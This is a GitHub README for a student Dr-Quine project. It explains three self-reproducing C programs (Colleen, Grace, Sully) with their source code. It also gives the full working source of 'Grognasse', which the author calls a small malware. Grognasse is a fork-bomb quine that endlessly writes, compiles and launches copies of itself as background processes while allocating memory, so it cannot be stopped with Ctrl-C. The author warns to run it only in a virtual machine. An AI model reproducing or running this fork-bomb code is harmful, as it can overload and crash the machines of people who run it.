 
# Dr-Quine

This project contains 4 programs including 1 malware putting into  
 practice the concept of Quine programs
## Colleen Description

The purpose of the Colleen program is to display its exact source code  
 as if we had executed a "cat" on our program.  
There are however some constraints imposed such as the fact  
 that the program must contain two different comments,  
a main function which would call another function.
It was forbidden to display  
 the source code through the location of the file in  the hard disk and   
 the program had to take no argument


## Code explanation Colleen

Here is the Colleen program:

```C
void u(char*a){printf(a,10,34,a);}//)
int main(){char*a="void u(char*a){printf(a,10,34,a);}//)%cint main(){char*a=%2$c%3$s%2$c;u(a);/*o*/}";u(a);/*o*/}
```

%1$c = char '\n'  
%2$c = char '"'  
%3$s = char * a  

I put my whole program in a string as well as printf string "arguments"  
 that will display the string in the string surrounded by quotes
## Grace Description

The Grace program works the same way as Colleen but instead of  
 displaying its source code, it will write it to a new file named "Grace_kid.c"  
There was also an additional constraint, I was not allowed to  
 declare a main function but I could use macros (3 max)

## Code explanation Grace

Here is the Grace program:

```C
#include <stdio.h>
#define s "#include <stdio.h>%1$c#define s %2$c%3$s%2$c%1$c#define m(x) int main(){FILE*f=fopen(x,%2$cw%2$c);fprintf(f,s,10,34,s);fclose(f);}%1$cm(%2$cGrace_kid.c%2$c)//c"
#define m(x) int main(){FILE*f=fopen(x,"w");fprintf(f,s,10,34,s);fclose(f);}
m("Grace_kid.c")//c
```

The code is very similar to Colleen, it's just in macros  
 and calls a few extra functions to create files
## Sully Description

The slightly more complex Sully program will receive an int x directly  
 in its source code and will then self-replicate x times.
For example if x = 5  
 you will have after execution the files: Sully4.c, Sully3.c....Sully0.c.  
 If you enter a very large number, you can abort execution with '^C'.  
 Note that the function will not directly create x files  
  but only one and will execute it to create another and so on

## Code explanation Sully

Here is the Sully program:

```C
#include <stdio.h> <string.h> <stdlib.h>
#define b 5
#define s "#include <stdio.h> <string.h> <stdlib.h>%1$c#define b %4$d%1$c#define s %2$c%3$s%2$c%1$c#define m() int main(){char y[100]=%2$cSully%2$c;char r[100];sprintf(r,%2$c%%d%2$c,b-1);strcat(y,r);strcat(y,%2$c.c%2$c);FILE*f=fopen(y,%2$cw%2$c);fprintf(f,s,10,34,s,b-1);fclose(f);if(b>1){char w[160]=%2$cgcc %2$c;strcat(w, y);system(w);system(%2$c./a.out%2$c);}}%1$cm()//c"
#define m() int main(){char y[100]="Sully";char r[100];sprintf(r,"%d",b-1);strcat(y,r);strcat(y,".c");FILE*f=fopen(y,"w");fprintf(f,s,10,34,s,b-1);fclose(f);if(b>1){char w[160]="gcc ";strcat(w, y);system(w);system("./a.out");}}
m()//c
```

%4$d = b - 1 (5 - 1)  

I started by defining in macro 'b' the decrementor.
Since Itoa doesn't work  
 on all machines depending on language versions, I used "sprintf"   
 to convert 'b' to string for embedding in filenames with Strcat.
Then I used   
the "system" command to have my code run the file it had just created  
 so it could in turn do the same
## Grognasse Description

Grognasse is a little malware created by using Sully's code.  
Unlike Sully, the int x is always initially equal to 1
but it will increment.  
 Moreover, each time a file is executed, Grognasse will create  
  x sub-files while continuing to increment x.  
I also added a malloc(1,000,000) to each call to make the memory work  
 and finally I made the execution of the program a process,  
therefore it is no longer possible to stop it via ' ^C'.  
Several processes will therefore be created almost simultaneously,  
 which will make the execution quite difficult to stop.

## Code explanation Grognasse

### **Warning !!**  

Although Grognasse is not a very powerful virus,  
 do not run it outside of a virtual machine.  
Otherwise, you expose yourself to a significant slowdown in your performance  
 because your processor will be overloaded.  

Here is the Grognasse program:

```C
#include <stdio.h> <string.h> <stdlib.h>
#define b 1
#define s "#include <stdio.h> <string.h> <stdlib.h>%1$c#define b %4$d%1$c#define s %2$c%3$s%2$c%1$c#define m() int main(){for(int i=b; i>0; i++){char*h=malloc(1000000);char y[100]=%2$cGrognasse%2$c;char r[100];sprintf(r,%2$c%%d%2$c,b+1);strcat(y,r);strcat(y,%2$c.c%2$c);FILE*f=fopen(y,%2$cw%2$c);fprintf(f,s,10,34,s,b+1);fclose(f);char w[160]=%2$cgcc %2$c;strcat(w, y);system(w);system(%2$c./a.out &%2$c);}}%1$cm()//c"
#define m() int main(){for(int i=b; i>0; i++){char*h=malloc(1000000);char y[100]="Grognasse";char r[100];sprintf(r,"%d",b+1);strcat(y,r);strcat(y,".c");FILE*f=fopen(y,"w");fprintf(f,s,10,34,s,b+1);fclose(f);char w[160]="gcc ";strcat(w, y);system(w);system("./a.out &");}}
m()//c
```

```BASH
./a.out &
```
The presence of the '&' character makes the execution a process

## Authors

- [@Lbensimo](https://github.com/Lbensimo)

